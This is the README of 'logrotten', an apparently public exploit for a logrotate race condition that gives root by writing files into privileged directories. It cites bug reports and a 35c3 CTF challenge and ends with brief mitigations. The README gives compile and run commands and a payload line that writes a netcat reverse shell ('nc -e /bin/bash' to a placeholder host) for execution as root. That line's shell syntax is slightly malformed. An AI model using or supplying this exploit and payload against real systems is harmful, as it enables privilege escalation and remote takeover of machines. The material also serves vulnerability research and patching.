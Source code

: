 # logrotate exploit by winning a race condition

## Brief description
  - logrotate is prone to a race condition vulnerability when it's exectued with
    "create"-option.
  - If logrotate is executed as root, with the "create"-option and the user
    is in control of the logfile path, it is possible to abuse a race-condition 
    to write files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
  - This vulnerability was reported by Marc Haber at the debian bug report
    ( https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=400198 )
  - and an issue was opened at the logrotate github-repository by cgzones
    ( https://github.com/logrotate/logrotate/issues/216 )
  - This vulnerability was also a challenge at the 35c3 CTF 
    ( https://ctftime.org/event/718 )
  - A detailed description and a PoC of this challenge was written by the 
  - nsogroup ( https://blog.nsogroup.com/logrotate-zajebiste-500-points/ )

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; /bin/nc -e /bin/bash myhost 3333 &; fi" > payloadfile
```

## Run exploit
```
./logrotten /tmp/log/pwnme.log payloadfile
```

## Mitigation
  - make sure that logpath is owned by root
  - or use option "nocreate"

## Author
  - Wolfgang Hotwagner

## Contact
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges


